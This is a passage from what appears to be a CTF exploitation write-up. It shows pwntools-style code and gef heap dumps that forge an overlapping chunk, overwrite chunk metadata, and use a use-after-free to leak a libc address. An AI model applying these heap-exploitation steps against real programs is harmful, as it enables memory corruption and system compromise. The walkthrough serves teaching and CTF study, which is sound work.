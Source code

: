 Now, we have the heap leak, so we could craft an overlapping chunk such that creating a fake chunk making it look like a chunk that will belong to the smallbin once `free`'d. This sounds a bit intimidating but it is not, if you figure out the pattern. I'll try my best to simplify:-

We will first, reuqest for `chunk[0]`, this will give us the ability to overwrite the `fd` of the `chunk[0]` such that the it will be returned in th next allocation request from the same bin.

Let's see for now:-

```py
malloc(0,0x40,p64(heap_leak-0x10)+p64(0x0)*6+p64(0x51))
```

We will get the `chunk[0]`, now we make the `fd` of it pointing to the `chunk[1] - 0x10` and continue to fill the buffer such that the memory content of the heap looks like:-

```r
gef➤  x/40xg 0x55a76febb060 - 0x60
0x55a76febb000:	0x0000000000000000	0x0000000000000051  <--  chunk[0]
0x55a76febb010:	0x000055a76febb040	0x0000000000000000
0x55a76febb020:	0x0000000000000000	0x0000000000000000
0x55a76febb030:	0x0000000000000000	0x0000000000000000
0x55a76febb040:	0x0000000000000000	0x0000000000000051  <--  fake_chunk
0x55a76febb050:	0x0000000000000000	0x0000000000000051  <--  chunk[1]
0x55a76febb060:	0x000055a76febb000	0x0000000000000000
0x55a76febb070:	0x0000000000000000	0x0000000000000000
```

> The pointers pointed by the bin head would point directly to `chunk + 0x10` i.e. from the `fd`.
Now, we will just go on with getting the chunks and work usually:-

```py
malloc(1,0x40,b"A")
malloc(5,0x40,b"B")
```

Now, for next allocation, we will get the `0x55...40` because what was the value of the `fd` of the `chunk[1]`. Now, since we created a `chunk[1]` with the size to be pointed at that, we will be able to tamper the `chunk[1]` metadata.

```py
malloc(6,0x40,p64(0x0)+p64(0xf1))
```

Doing so:-

```r
0x55a76febb040:	0x0000000000000000	0x0000000000000051
0x55a76febb050:	0x0000000000000000	0x00000000000000f1
0x55a76febb060:	0x000055a76febb041	0x0000000000000000
```

Now, when we free the `chunk[1]` it will go into the unsorted bin and the `fd` and `bk` would be populated with the `main_arena` address, hence using the UAF from the `show` function, we will get the `main_arena` address, apparently, the LIBC base address.

```py
free(1)
libc_leak = show(1)[1:7]
libc_leak = u64(libc_leak+b"\x00\x00")
libc.address = libc_leak - 0x3c4b78
```
Heap:-

